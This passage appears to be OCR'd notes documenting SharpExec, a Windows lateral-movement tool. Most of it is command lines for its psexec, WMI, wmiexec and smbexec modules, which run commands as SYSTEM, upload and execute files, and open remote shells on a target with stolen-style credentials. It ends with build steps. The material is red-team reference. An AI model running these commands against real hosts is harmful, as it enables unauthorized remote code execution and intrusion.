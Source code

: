                                 ```
                                
                            - Run a command as NT Authority\System:
                                
                                ```css
                                SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\\Windows\\System32\\cmd.exe -c="My Args"
                                
                                ```
                                
                        - **WMI Module**:
                            
                            - Upload and execute a file as TargetUser:
                                
                                ```css
                                SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\\users\\user1\\desktop\\noPowershell-noargs.exe -e=C:\\noPowershell-noargs.exe
                                
                                ```
                                
                            - Run a command as TargetUser:
                                
                                ```css
                                SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\\Windows\\System32\\cmd.exe -c="My Args"
                                
                                ```
                                
                        - **WMIExec Module**:
                            
                            - Start a semi-interactive shell as TargetUser:
                                
                                ```css
                                SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain
                                
                                ```
                                
                        - **SMBExec Module**:
                            
                            - Start a semi-interactive shell as NT Authority\System:
                                
                                ```css
                                SharpExec.exe -m=smbexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain
                                
                                ```
                                
                        
                        ### **Setup**
                        
                        To set up SharpExec:
                        
                        1. Download the SharpExec tool and open the **`SharpExec.sln`** file in Visual Studio.
                        2. Ensure the project is compiled for the correct architecture (x64 or x86).
                        3. Add necessary references, such as **`System.Management`**, in Visual Studio.
                        4. Compile and deploy the binary as needed.



## Resources

* https://github.com/N7WEra/SharpAllTheThings

Cover by Mary Fazzolari
